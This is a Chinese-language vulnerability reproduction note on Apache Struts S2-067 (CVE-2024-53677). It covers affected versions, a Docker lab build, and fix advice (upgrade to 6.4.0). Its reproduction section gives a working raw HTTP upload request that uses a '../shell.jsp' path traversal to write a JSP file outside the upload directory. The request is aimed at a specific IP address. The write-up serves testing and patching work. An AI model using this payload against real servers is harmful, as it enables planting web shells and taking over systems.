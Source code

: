 # Apache Struts S2-067 远程代码执行漏洞 CVE-2024-53677

## 漏洞描述

Apache Struts 是一个开源的、用于构建企业级 Java Web 应用的 MVC 框架。2024 年 12 月，官方披露 CVE-2024-53677 Apache Struts FileUploadInterceptor 文件上传漏洞。在受影响版本中，若代码中使用了 FileUploadInterceptor ，则可能在进行文件上传时攻击者可能上传文件至其他目录，在特定场景下可能造成代码执行。

## 漏洞影响

```
Struts 2.0.0 - Struts 2.3.37
Struts 2.5.0- Struts 2.5.33
Struts 6.0.0- Struts 6.3.0.2
```

参考链接：

- [Apache Struts2 文件上传逻辑绕过(CVE-2024-53677)(S2-067)](https://y4tacker.github.io/2024/12/16/year/2024/12/Apache-Struts2-%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E9%80%BB%E8%BE%91%E7%BB%95%E8%BF%87-CVE-2024-53677-S2-067/)
- https://github.com/c4oocO/CVE-2024-53677-Docker
- https://github.com/Trackflaw/CVE-2023-50164-ApacheStruts2-Docker

## 环境搭建

通过项目 [CVE-2023-50164-ApacheStruts2-Docker](https://github.com/c4oocO/CVE-2024-53677-Docker) 搭建一个 Struts 6.3.0 漏洞环境：

```
git clone https://github.com/c4oocO/CVE-2024-53677-Docker.git
cd CVE-2024-53677-Docker 
docker build --ulimit nofile=122880:122880 -m 3G -t cve-2024-53677 .
docker run -p 8080:8080 --ulimit nofile=122880:122880 -m 3G --rm -it --name cve-2024-53677 cve-2024-53677
```

该项目修改自 [CVE-2023-50164-ApacheStruts2-Docker](https://github.com/Trackflaw/CVE-2023-50164-ApacheStruts2-Docker)，将 `struts-app/src/main/java/org/trackflaw/example/Upload.java` 的原始文件上传处理逻辑替换为 `FileUploadInterceptor` 。

可更新 maven 源加速构建，在 Dockerfile 同级目录创建一个自定义的 settings.xml：

```
<settings xmlns="http://maven.apache.org/SETTINGS/1.0.0"
          xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
          xsi:schemaLocation="http://maven.apache.org/SETTINGS/1.0.0
                     http://maven.apache.org/xsd/settings-1.0.0.xsd">
  <mirrors>
    <mirror>
        <id>aliyun-maven</id>
        <mirrorOf>central</mirrorOf>
        <name>Aliyun Maven</name>
        <url>https://maven.aliyun.com/repository/central</url>
    </mirror>
  </mirrors>
</settings>
```

在 Dockerfile 中新增一行，将自定义的 `settings.xml` 复制到 Maven 的配置目录中，替换默认文件：

```
COPY settings.xml /root/.m2/settings.xml
```

重新执行 `docker build` 与 `docker run` 即可。

通过 `curl` 验证服务是否启动：

```
curl http://your-ip:8080/upload.action
```

或访问 `http://your-ip:8080/upload.action` 查看上传页面。

## 漏洞复现

```
POST /upload.action HTTP/1.1
Host: 124.221.47.70:8080
Content-Length: 320
Cache-Control: max-age=0
Origin: http://124.221.47.70:8080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary2NRMscRh7zNdWblD
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://124.221.47.70:8080/upload.action
Accept-Encoding: gzip, deflate, br
Accept-Language: en
Cookie: JSESSIONID=4563A1B22B51DE02F1FD131C1E88DE5C
Connection: keep-alive

------WebKitFormBoundary2NRMscRh7zNdWblD
Content-Disposition: form-data; name="Upload"; filename="test.png"
Content-Type: image/png

<%= "awesome_poc" %>
------WebKitFormBoundary2NRMscRh7zNdWblD
Content-Disposition: form-data; name="top.UploadFileName"; 

../shell.jsp
------WebKitFormBoundary2NRMscRh7zNdWblD--
```

![](images/Apache%20Struts%20S2-067%20远程代码执行漏洞%20CVE-2024-53677/image-20241218085852812.png)

访问上传文件：

```
http://your-ip:8080/shell.jsp
```

![](images/Apache%20Struts%20S2-067%20远程代码执行漏洞%20CVE-2024-53677/image-20241218085910676.png)

## 漏洞修复

1. 升级组件 Apache Struts 升级至 6.4.0 及以上版本。
2. 自行排查代码中是否使用 FileUploadInterceptor，若无使用则不受该漏洞影响。
